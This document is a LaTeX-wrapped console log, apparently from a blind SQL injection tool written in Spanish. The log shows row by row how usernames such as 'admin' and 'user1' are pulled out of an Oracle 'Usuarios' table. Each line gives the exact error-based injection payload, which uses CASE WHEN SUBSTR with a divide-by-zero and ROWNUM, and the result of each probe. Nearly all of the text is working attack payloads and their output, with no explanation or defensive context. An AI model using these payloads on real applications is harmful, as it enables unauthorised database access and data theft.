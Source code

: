 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[style=console, basicstyle=\ttfamily\footnotesize]
 [+] Extrayendo carácter 5 de 5 para la fila 1...
 OK Carácter 5: 'n' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 5, 1) = 'n') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 [+] Valor extraído para la fila 1: admin
 
 [+] Extrayendo datos para la fila 2...
 
 [+] Determinando la longitud de 'username' para la fila 2...
 FAIL Probando longitud 1 para la fila 2...
 FAIL Probando longitud 2 para la fila 2...
 FAIL Probando longitud 3 para la fila 2...
 FAIL Probando longitud 4 para la fila 2...
 OK Probando longitud 5 para la fila 2...
 [*] La longitud de 'username' en la fila 2 es: 5
 
 [+] Extrayendo el valor de 'username' para la fila 2...
 
 [+] Extrayendo carácter 1 de 5 para la fila 2...
 OK Carácter 1: 'u' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 1, 1) = 'u') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 2 de 5 para la fila 2...
 OK Carácter 2: 's' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 2, 1) = 's') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 3 de 5 para la fila 2...
 OK Carácter 3: 'e' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 3, 1) = 'e') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 4 de 5 para la fila 2...
 OK Carácter 4: 'r' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 4, 1) = 'r') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 
 [+] Extrayendo carácter 5 de 5 para la fila 2...
 OK Carácter 5: '1' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(username, 5, 1) = '1') THEN 1 ELSE 1/0 END FROM (SELECT username, ROWNUM AS rn FROM Usuarios) WHERE rn=2) = 1 --
 [+] Valor extraído para la fila 2: user1
 

\end{lstlisting}
\end{document}
